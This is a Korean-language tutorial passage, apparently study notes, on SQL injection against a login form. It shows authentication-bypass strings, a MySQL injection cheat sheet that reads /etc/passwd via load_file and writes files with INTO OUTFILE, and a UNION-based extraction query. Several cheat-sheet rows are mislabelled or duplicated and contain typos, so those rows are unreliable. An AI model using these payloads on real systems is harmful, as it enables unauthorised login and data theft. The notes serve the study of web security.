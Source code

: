 * **공격**

  > SELECT id FROM member WHERE id='admin' and password=' ' or '1'='1'
  >
  > -> 아이디에 admin, 패스워드에 ' or '1'='1

  =>**id가 admin이면서 패스워드가 빈칸('')이거나, 1=1이 참일때 모든 ROW 리턴**

  -> **최상위 ROW값의 아이디(admin)d으로 로그인**



* **그 외 SQL 삽입 취약점 테스트**

  ```pseudocode
  ' or 1=1#
  ' or '1'='1
  " or 1=1#
  '||1=1#
  "||1=1#
  '||2>1#
  or 1=1 #
  '> or ('1'='1
  ...
  ```

  

### UNOIN과 Cheat Sheet로 로그인 공격

* **MySQL 삽입 Cheat Sheet**

  |          유저명 출력          | select user();                                               |
  | :---------------------------: | ------------------------------------------------------------ |
  |          버전명 출력          | select version();                                            |
  | 현재 사용 데이터베이스명 출력 | select database();                                           |
  |       유저 리스트 출력        | select database();                                           |
  |      모든 스키마명 출력       | select user from mysql.user                                  |
  |      모든 테이블명 출력       | select shema.name from information_schema.schemata           |
  |      테이블 칼럼명 출력       | select table_name from infromation_schema.tables             |
  |      테이블 칼럼명 출력       | select column_name from information_schema.columns where table_name="테이블 명" |
  |        로컬 파일 접근         | select load_file('/etc/passwd')                              |
  |          파일로 추출          | select 1234 into outfile '/tmp/outfile'                      |

  

* **공격**

  * cheat sheet 와 UNION문으로 **데이터 추출**

    > Query => SELECT id FROM member WHERE id ='1234' and password='1' union select version()#'

  * cheat sheet 와 UNION문으로 **스키마 이름 추출**
